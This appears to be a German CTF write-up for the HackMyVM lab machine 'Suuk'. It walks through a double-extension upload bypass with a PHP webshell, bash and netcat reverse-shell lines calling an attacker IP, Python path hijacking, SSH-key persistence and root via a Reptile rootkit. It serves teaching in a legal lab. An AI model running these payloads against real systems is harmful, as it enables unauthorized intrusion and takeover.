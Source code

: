 # Suuk - HackMyVM (Medium)
 
![Suuk.png](Suuk.png)

## Übersicht

*   **VM:** Suuk
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Suuk)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 16. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Suuk_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Suuk"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), der ein Datei-Upload-Formular unter `/upload/` bereitstellte. Durch Umbenennen einer PHP-Webshell (`hackerBen.php`) in `exploit.php.png` konnte der Upload-Filter umgangen werden, was zu Remote Code Execution (RCE) als `www-data` führte. Eine Reverse Shell wurde etabliert. Die Bash-History des `www-data`-Benutzers enthielt Hinweise auf ein Verzeichnis `/home/tignasse` und eine Datei `pass.txt`. Durch Verwendung von `less` konnte das Passwort `716n4553` für den Benutzer `tignasse` ausgelesen werden. Als `tignasse` zeigte `sudo -l`, dass ein Python-Skript (`/opt/games/game.py`) als Benutzer `mister_b` ausgeführt werden durfte. Durch Python Path Hijacking (Erstellen einer bösartigen `random.py` im Verzeichnis `/opt/games`) wurde eine Shell als `mister_b` erlangt. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch die Entdeckung eines Reptile-Rootkits im Verzeichnis `/reptile` (Hinweis aus der `.bash_history` von `www-data`), dessen Befehl `/reptile/reptile_cmd root` direkt eine Root-Shell gewährte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `vi` / `nano`
*   `mv`
*   `nc` (netcat)
*   `python3`
*   `stty`
*   `find`
*   `less`
*   `su`
*   `sudo`
*   `cat`
*   `export`
*   `ps`
*   `mkdir`
*   `echo`
*   `ssh`
*   `reptile_cmd`
*   Standard Linux-Befehle (`ls`, `cd`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Suuk" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.119`).
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH - OpenSSH 7.9p1) und 80 (HTTP - Apache 2.4.38 mit Titel "Formulaire d'upload de fichiers").
    *   `gobuster` auf Port 80 fand das Verzeichnis `/upload/`.

2.  **Initial Access (Webshell Upload & Reverse Shell):**
    *   Erstellung einer PHP-Webshell (`hackerBen.php` mit `echo system($GET["cmd"]);`).
    *   Umbenennung der Webshell zu `exploit.php.png` zur Umgehung von Upload-Filtern.
    *   Erfolgreicher Upload der `exploit.php.png` über das Formular unter `/upload/`.
    *   Bestätigung der RCE durch Aufruf von `http://192.168.2.119/upload/exploit.php.png?cmd=id` (Ausgabe als `www-data`).
    *   Etablierung einer Reverse Shell als `www-data` mittels eines Bash-Payloads (`/bin/bash -c 'bash -i >& /dev/tcp/[Angreifer-IP]/9001 0>&1'`) über die Webshell.
    *   Stabilisierung der Reverse Shell.

3.  **Privilege Escalation (von `www-data` zu `tignasse`):**
    *   Analyse der `.bash_history` des `www-data`-Benutzers enthielt Hinweise auf `/home/tignasse/pass.txt` und `/reptile`.
    *   Wechsel zu `/home/tignasse`. Die Datei `.pass.txt` wurde gefunden.
    *   `cat .pass.txt` zeigte "Try harder !".
    *   `less .pass.txt` offenbarte das Passwort `716n4553` (versteckt durch Steuerzeichen).
    *   Wechsel zum Benutzer `tignasse` mittels `su tignasse` und dem Passwort `716n4553`.

4.  **Privilege Escalation (von `tignasse` zu `mister_b`):**
    *   `sudo -l` als `tignasse` zeigte: `(mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py`.
    *   Analyse von `/opt/games/game.py` zeigte den Import von `random`.
    *   Erstellung einer bösartigen `/opt/games/random.py` (Python Path Hijacking), die eine Netcat-Reverse-Shell (`nc [Angreifer-IP] 1337 -e /bin/bash`) startete.
    *   Ausführung von `sudo -u mister_b /usr/bin/python /opt/games/game.py` als `tignasse` löste die bösartige `random.py` aus.
    *   Erlangung einer Reverse Shell als `mister_b`.
    *   Einrichtung von SSH-Zugriff für `mister_b` durch Hinzufügen des Angreifer-SSH-Public-Keys zu `~/.ssh/authorized_keys`.
    *   User-Flag `Ciphura` in `/home/mister_b/user.txt` gelesen.

5.  **Privilege Escalation (von `mister_b` zu `root`):**
    *   Basierend auf dem Hinweis aus der `.bash_history` von `www-data` wurde das Verzeichnis `/reptile` untersucht.
    *   Ausführung des Befehls `/reptile/reptile_cmd root` (Teil des Reptile-Rootkits).
    *   Erlangung einer Root-Shell.
    *   Root-Flag `Warulli` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Unsicherer Datei-Upload:** Umgehung von Dateityp-Filtern durch doppelte Endungen (`.php.png`) führte zu RCE.
*   **Informationsleck in `.bash_history`:** Enthielt Hinweise auf interessante Verzeichnisse und Dateinamen.
*   **Passwörter in Klartextdateien (mit Steuerzeichen versteckt):** Ein Passwort wurde in einer Textdatei gespeichert und war nur mit `less` (nicht `cat`) vollständig sichtbar.
*   **Unsichere `sudo`-Konfiguration (Python Path Hijacking):** Die Erlaubnis, ein Python-Skript als anderer Benutzer auszuführen, in Kombination mit Schreibrechten im Verzeichnis des Skripts, ermöglichte das Hijacking von Modul-Importen zur Codeausführung.
*   **Vorhandenes Rootkit (Reptile):** Ein installiertes Rootkit bot einen direkten Befehl zur Erlangung von Root-Rechten.

## Flags

*   **User Flag (`/home/mister_b/user.txt`):** `Ciphura`
*   **Root Flag (`/root/root.txt`):** `Warulli`

## Tags

`HackMyVM`, `Suuk`, `Medium`, `File Upload Vulnerability`, `RCE`, `Bash History`, `Python Path Hijacking`, `sudo Exploitation`, `Rootkit`, `Reptile`, `Linux`, `Web`, `Privilege Escalation`
